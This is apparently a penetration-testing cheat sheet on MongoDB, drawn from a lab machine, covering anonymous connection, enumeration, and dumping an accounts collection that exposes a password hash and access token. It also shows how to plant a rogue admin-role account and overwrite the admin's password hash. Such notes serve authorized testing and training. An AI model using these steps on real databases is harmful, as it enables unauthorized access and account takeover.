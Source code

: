 ```yaml
---
title: "MongoDB General"
date: 2024-6-27
tags: ["Database Dumping", "Mongodb", "Database", "Enumeration"]
---
```


### General

#### Connect to Mongo Database

{{< tab set1 tab1 >}}anonymous{{< /tab >}}
{{< tab set1 tab2 >}}authenticate{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
mongosh <TARGET>:27017
```

```console {class="sample-code"}
$ mongosh 172.17.0.3:27017
Current Mongosh Log ID: 66f2fa2192b07a1eeb856ec6
Connecting to:          mongodb://172.17.0.3:27017/?directConnection=true&appName=mongosh+2.2.12
Using MongoDB:          5.0.6
Using Mongosh:          2.2.12

For mongosh info see: https://docs.mongodb.com/mongodb-shell/

------
   The server generated these startup warnings when booting
   2024-09-24T10:44:22.876+00:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
   2024-09-24T10:44:23.824+00:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
------

Warning: Found ~/.mongorc.js, but not ~/.mongoshrc.js. ~/.mongorc.js will not be loaded.
  You may want to copy or rename ~/.mongorc.js to ~/.mongoshrc.js.
test> 
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Connect local with creds and specified database
mongo -u <USER> -p '<PASSWORD>' <DB_NAME>
```

{{< /tabcontent >}}

#### Basic Commands

```console
# Show all databases
show dbs
```

```console {class="sample-code"}
test> show dbs
admin    132.00 KiB
config    72.00 KiB
local     88.00 KiB
trudesk    1.01 MiB
```

```console
# Choose database
use <DB_NAME>
```

```console {class="sample-code"}
test> use trudesk
switched to db trudesk
```

```console
# Show all collections
show collections
```

```console {class="sample-code"}
trudesk> show collections
accounts
counters
departments
groups
messages
...[SNIP]...
```

```console
# Show all of the collection
db.<COLLECTION_NAME>.find().pretty()
```

```console {class="sample-code"}
trudesk> db.accounts.find().pretty()
[
  {
    _id: ObjectId('623c8b20855cc5001a8ba13c'),
    preferences: {
      tourCompleted: false,
      autoRefreshTicketGrid: true,
      openChatWindows: []
    },
    hasL2Auth: false,
    deleted: false,
    username: 'admin',
    password: '$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS',
    fullname: 'Robert Frost',
    email: 'rfrost@carpediem.htb',
    role: ObjectId('623c8b20855cc5001a8ba138'),
    title: 'Sr. Network Engineer',
    accessToken: '22e56ec0b94db029b07365d520213ef6f5d3d2d9',
    __v: 0,
    lastOnline: ISODate('2022-04-07T20:30:32.198Z')
  },
...[SNIP]...
```

```console
# Insert entry into collections
db.<COLLECTION_NAME>.insert({"<key>": "<value>"})
```

```console {class="sample-code"}
trudesk> db.accounts.insert({_id: ObjectId('33f3b8a827983e3773023633'),preferences: {tourCompleted: false,autoRefreshTicketGrid: true,openChatWindows: []},hasL2Auth: false,deleted: false,username: 'test',password: '$2b$10$imwoLPu0Au8LjNr08GXGy.xk/Exyr9PhKYk1lC/sKAfMFd5i3HrmS',fullname: 'Test USer',email: 'test@carpediem.htb',role: ObjectId('623c8b20855cc5001a8ba138'),title: 'Test',accessToken: '3fd5a5e64963cd4b973480032125011568fee525',__v: 0,lastOnline: ISODate('2022-04-07T20:30:32.198Z')})
{
  acknowledged: true,
  insertedIds: { '0': ObjectId('33f3b8a827983e3773023633') }
}
```

```console
# Update an entry (e.g. password of user)
db.<COLLECTION_NAME>.updateOne({"username": "user"}, {$set: {"password": "password"}});
```

```console {class="sample-code"}
trudesk> db.accounts.updateOne({"username":"admin"}, {$set:{"password":"$2b$04$gj6qKJ4AhURmyt1wnUfPsOPebiur236k1m57BwteWHDV2fzJL74Yq"}})
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 0,
  upsertedCount: 0
}
```